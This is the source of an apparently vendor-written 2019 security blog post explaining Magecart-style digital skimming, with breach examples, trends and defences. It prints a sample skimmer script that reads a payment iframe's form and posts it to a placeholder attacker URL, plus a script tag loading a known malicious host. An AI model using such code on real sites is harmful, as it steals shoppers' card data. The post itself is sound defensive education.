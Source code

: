 ```yaml
---
template: "blog/blog-post"
draft: false

# Metadata
title: "All About Online Skimming or Digital Skimming Attacks"
description: "Read everything you need to know about skimming attacks or magecart style attacks. The post explains the evolution of skimming attacks, how does it work, examples of skimming attacks, trends and how to protect against skimming in detail."

# Breadcrumbs
breadcrumbs:
  - name: TechBlog
    path: /techBlog/
  - name: All About Online Skimming...

# Fields
date: 2019-07-24
author:
  - Mickey Alton

blog_title: "All About Online Skimming or Digital Skimming Attacks"
categories: Research
tags:
  - client side data protection
  - online skimming attacks

thumbnail: digital-skimming.jpg
---
```


![All About Online Skimming or Digital Skimming Attacks](/assets/images/blog/digital-skimming.jpg)<br>

The rise of digital skimming attacks, web-based supply chain attacks, in recent years is stressing the e-commerce industry. E-commerce companies cannot ignore web-based supply chain attacks resulting in direct website breaches.

Our previous blog post, [Client-Side battle against JavaScript attacks](/blog/client-side-battle-against-javascript-attacks/), and [Why SRE’s should worry more about third-party javascript](/blog/sres-should-worry-third-party-javascript/), shed light on the growing digital skimming menace.

Digital skimming is a semi-new threat, often called “Magecart,” consists of more than a dozen “official” different rival groups. These groups are targeting online retailers and eluding security researchers. Interestingly enough these groups don't always play nice with each other. They compete with each other to steal “low hanging” credit card data and personally identifiable information (PII). And resell them on deep-web and dark-net markets. This client-side threat is the new face of modern e-commerce cybercrimes.

## What is Skimming

Skimming Definition: Skimming or card skimming was originally used to describe the physical tampering of POS (point-of-sale) devices, ATMs and gas pumps by placing a hidden device inside them to steal credit card information.
The stolen credit card information is used to make online (card-not-present) purchases, cloned for in-store (card present) purchases or sold on different deep-web markets and darknet markets.
Victims of credit card skimming were often unaware of the theft until they noticed unauthorized charges on their account.

## What is digital skimming or online card skimming

Digital skimming is a term describing the action of stealing credentials and sensitive payment information from website visitors. Digital skimmers use pre-placed malicious javascript code that sniffs user inputs from sensitive forms or creates a malicious iframe with fake payment forms to sniff credit card information.

![This is an example of a card skimmer](/assets/images/blog/card-skimmer.jpg)

## The evolution of skimming

Later on, cybercriminals started to practice the same concept of card skimming - online. Instead of placing a physical device on the ATM, they would place a code that acts the same way (scanning private information) in online stores. There are more than a few synonyms for this semi-new cybercrime trend of digital skimming: js sniffing, digital skimming, web-skimming, and js stealer. They all refer to the same practice of injecting an unwanted piece of javascript malware into website cart or checkout page code to ‘grab’ sensitive information.

## What does a digital or online card skimming code look like

Below is a skimming script example taken from [Github](https://github.com/mspringfield/MageCart_Testing/blob/master/include.js) that resembles pieces of code that were used to carry out real sniffing operations.

```javascript
window.onload = function() {
  jQuery("#ifrmPayment")
    .contents()
    .find("#btnCreditCard")
    .bind("mouseup touchend", function(e) {
      var dati = jQuery("#ifrmPayment")
        .contents()
        .find("form");
      setTimeout(function() {
        jQuery.ajax({
          type: "POST",
          async: true,
          url: "hxxp://example.net/evilform.php",
          data: pdati,
          dataType: "application/json",
        });
      }, 20);
    });
};
```

_Code taken from Github that was used to carry out real sniffing operations._

Skimming scripts usually come heavily obfuscated, some are very short and have less than 20 lines of ‘innocent’ JavaScript code and one line that contains the malicious behavior. In the example above, we can see that the attackers are leveraging legitimate jQuery.

## How does digital or online card skimming work

Most of the skimming operations are carried out in two ways:

- Direct hack of a website: The direct hack of a website or a batch of websites, by brute-forcing administrator credentials (called brute-force attacks) or by using known, zero-day vulnerabilities (usually CMS based) for placing a malicious js in a website is an obvious but still attractive way to carry out a skimming operation.
- Supply chain attack: The more contemporary way - infection by supply chain attack - can be read in our latest blog, client-side-The security-blindspot of your website. The client-side has been evaluated and now two of the main sources of JS modules are open-source libraries and third-party vendors. This attack works by “simply” compromising one third-party vendor and tampering with the original script to deliver the malicious piece of code with the original code to all of the websites using the poisoned third-party script.

## Examples Of Magecart Skimming Attacks

During the period of 2017-2018 more than 12 third-party vendors were breached by “Magecart” (group 5), a few among them are:

- [Feedify](https://www.zdnet.com/article/feedify-becomes-latest-victim-of-the-magecart-malware-campaign/), August - September 2018. Feedify, an Indian company that provides browser-based customer survey service, has more than 4,000 customers according to its website. After Feedify detected the breach and removed the malicious script, the attackers (who had control of the core infrastructure) kept adding the skimming script three more times before the root cause of the breach was truly fixed.
- PushAssist is a 3rd party vendor offering a push notification service to reach and re-engage customers, it was also compromised my Magecart to deliver malicious JS sniffing code to websites that use PushAssist’s service.
  These third-party vendor breaches and many more resulted in a huge impact on tens of thousands of visitors.

Moreover, while press releases and news tend to focus on operations against known brands and websites there are ongoing attacks carried out widely targeting CMS-based websites.
The impact of these attacks should not be taken lightly. For instance, less than a year ago around 17 vulnerable Magento extensions were leveraged by skimmers to launch wide skimming attacks using POI (PHP object Sterilization) [vulnerability in several popular Magento extensions](https://sansec.io/labs/2018/10/23/magecart-extension-0days/).
Over 7,000 Magento shops were reported as compromised during 2018 alone. In most cases, the infection was as simple as a single line of HTML that loads a malicious script used to carry out the attack methodically on thousands of website without much effort.

```javascript
<script type="text/javascript" src="https://magento.name/mage/mage.js"></script>
```

Although site owners have been notified by good samaritans security researchers that the C&C servers were a sinkhole, hundreds of website still have the malicious snippet embedded in their source code while the malware itself does not exist anymore. It remains from a past breach.
Magento Commerce, Powerfront CMS, and OpenCart-based website are under constant attack in a new era of digital skimming and there’s not a proper solution as of today. Magento shop breaches are losing their attention to more ‘appealing’ campaigns, involving compromises of larger brands such as Techrabbit, [VisionDirect](https://www.bleepingcomputer.com/news/security/visiondirect-data-breach-caused-by-magecart-attack/) and many more.

## Digital Skimming Trends

Digital skimming is on an upward trend. This new fraud trend does not seem to be fading out, with new breaches, new actors and hundreds of thousands of victims.
According to [Gemini Advisory’s](https://geminiadvisory.io/card-fraud-on-the-rise/) research, fraud involving physical cards (CP: card-present) is on a downward trend while online (CNP: card-not-present - skimmed digitally) is rising.

![Comparison of card-present vs. card-not-present fraud](/assets/images/blog/comparison-card-present-not-present.jpg)<br>

These trends correlate perfectly with similar findings by 2019 [Verizon](https://enterprise.verizon.com/resources/reports/2019-data-breach-investigations-report.pdf) data breach report that clearly shows the rise in new web skimming trend. In their words exactly, “Web application attacks have punched the time clock and relieved POS Intrusion of their duties.“

## How to protect against digital or online card skimming?

Even though the digital skimming threat is constantly evolving, attackers always stay busy finding new ways to infect websites and exfiltrate sensitive data. There are relatively simple countermeasures that can be taken in order to protect against the threat of online card skimming.

1. Correct use of Content Security Policy (CSP) by website administrators. CSP headers are used to restrict communication and data transfer between domains and will constitute a great blocker for a malicious script trying to transfer data from domain to unauthorized domain.
2. From the visitor's point of view (client-side): There are more than a few extensions such as “ScriptSafe”, “ContentBlockHelper”, “NoScript” and more that provide the users both control on actions made by scripts and visibility on all the domains that are serving scripts. Another option is using privacy-oriented browsers such as “Brave Browser” that allows the user to block the third-party script from being loaded.

Stay tuned for more blogs on the topic of third-party code vulnerabilities. Find out more about protecting against digital skimming attacks with [PerimeterX code defender](/products/code-defender/).
